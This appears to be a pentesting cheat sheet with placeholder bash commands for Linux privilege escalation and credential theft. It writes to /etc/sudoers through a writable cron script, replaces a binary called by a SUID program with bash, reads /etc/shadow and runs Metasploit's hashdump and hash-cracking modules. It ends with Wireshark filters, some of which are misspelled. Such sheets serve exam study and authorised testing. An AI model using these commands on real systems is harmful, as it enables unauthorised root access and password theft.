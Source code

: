 #### Cron Jobs

```bash
# CRON
crontab -l

find / -name <CRONJOB_SCRIPT>

printf '#!/bin/bash\necho "<USER> ALL=NOPASSWD:ALL" >> /etc/sudoers' > /usr/local/share/<CRONJOB_SCRIPT>
```

#### SUID

```bash
# SUID
file <FILE>
strings <FILE>
	# find called binary
rm <BINARY>
cp /bin/bash <BINARY>
./<FILE>
```

### Linux Credential Dumping

```bash
cat /etc/passwd
sudo cat /etc/shadow

# METASPLOIT (once exploited)
use post/linux/gather/hashdump
set SESSION <NUMBER>

use auxiliary/analyze/crack_linux
set SHA512 true
```

## Network Based Attacks

### Wireshark

```bash
wireshark -i eth1

# Filter by ip
ip.add == 10.10.10.9

# Filter by dest ip
ip.dest == 10.10.10.15

# Filter by source ip
ip.src == 10.10.16.33

# Filter by tcp port
tcp.port == 25

# Filter by ip addr and port
ip.addr == 10.10.14.22 and tcp.port == 8080

# Filter SYN flag
tcp.flags.syn == 1 and tcp.flags.ack ==0

# Broadcast filter
eth.dst == ff:ff:ff:ff:ff:ff
```